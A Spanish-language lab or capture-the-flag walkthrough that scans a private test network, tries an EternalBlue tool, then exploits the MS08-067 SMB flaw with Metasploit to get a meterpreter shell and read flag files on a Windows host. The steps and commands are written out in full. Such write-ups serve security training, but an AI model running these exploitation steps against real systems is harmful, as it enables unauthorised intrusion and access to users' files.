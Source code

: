 
IP local: 10.0.22.4<br>
IP remota: 10.0.22.6 <br>
***Abrimos consola***
- netdiscover -r 10.0.22.0/24
	- *Descubrimos que ip sale que no es usual*	
- nmap -p445 --script="smb-vuln-*" 10.0.22.6
- **PROBAMOS EL WIN7BLUE**
- cd /home/user/Desktop/Win7Blue
- chmod +x Win7Blue
- ./Win7Blue
	- $:1
	- RHOST: 10.0.22.6
- ./Win7Blue
	- $: **4** 
	- RHOST: 10.0.22.6
	- LHOST 10.0.22.4
	- LPORT: 445
	- *Darle a enter*
 -  Al no funcionar, probamos con la otra opción
	- $: **3** 
   	- - RHOST: 10.0.22.6
	- LHOST 10.0.22.4
	- LPORT:445
	- *Darle a enter*
- Vemos que no funciona este método, así que recurrimos al otro con el metaexploit:

- **METAEXPLOIT**
  
- Buscamos la vulnerabilidad con el comando nmap:
- nmap -p445 --script="smb-vuln-*" 10.0.22.6
- ![Pasted image 20241009183608](https://github.com/user-attachments/assets/c32e00df-f754-439f-b292-147c71c84497)
  
- searchsploit MS08-067
- ![Pasted image 20241009183946](https://github.com/user-attachments/assets/76787312-2e7d-461b-9938-ff3b39777006)
  
- msfconsole
- search MS08-067
- use 0
- show options
- ![Pasted image 20241009184040](https://github.com/user-attachments/assets/74143a1e-1cad-4415-a660-cd2d161043d6)
  
-  set rhosts 10.0.22.6
- show options
- ![Pasted image 20241009184121](https://github.com/user-attachments/assets/85a24e73-9f71-4821-912c-92b66427865b)
  
- Exploit:
	- En este caso, no funciona ya que no se puede llegar, así que se hará una modificación de los puertos locales:
	- ![Pasted image 20241009184247](https://github.com/user-attachments/assets/030cc503-5ac2-4686-84cf-9913dff3e508)
   
- Exploit:
	- De nuevo no funciona, así que le cambiamos de nuevo el puerto:
	- ![Pasted image 20241009184353](https://github.com/user-attachments/assets/f475be53-419b-4c72-8aca-eb027f1e5973)
   
- Exploit
	- En este caso, ya ha funcionado.
- *Cuando sale el meterpreter:*
- shell
- **En este momento, ya hemos entrado al shell de la máquina vulnerable**
- dir
- dir C:\\![Pasted image 20241009184547](https://github.com/user-attachments/assets/7c56b549-809d-408b-986c-a80c155c524f)
  
- cd C:\\Documents and Settings
- dir C:\\Documents and Settings![Pasted image 20241009184616](https://github.com/user-attachments/assets/47891447-2c1e-4969-86f5-89854f5c1183)
  
- cd C:\\Documents and Settings\\bill
- dir C:\\Documents and Settings\\bill![Pasted image 20241009184654](https://github.com/user-attachments/assets/80200e24-3665-4b5d-bd2b-996a908a15c9)

- C:\\Documents and Settings\\bill\\Desktop![Pasted image 20241009184712](https://github.com/user-attachments/assets/b06888e4-266f-4ed0-a7c2-9f1e4207452a)

- type root.txt
- type user.txt
- ![Pasted image 20241009184745](https://github.com/user-attachments/assets/13cc4202-a09a-443a-b075-1d27c90ef032)




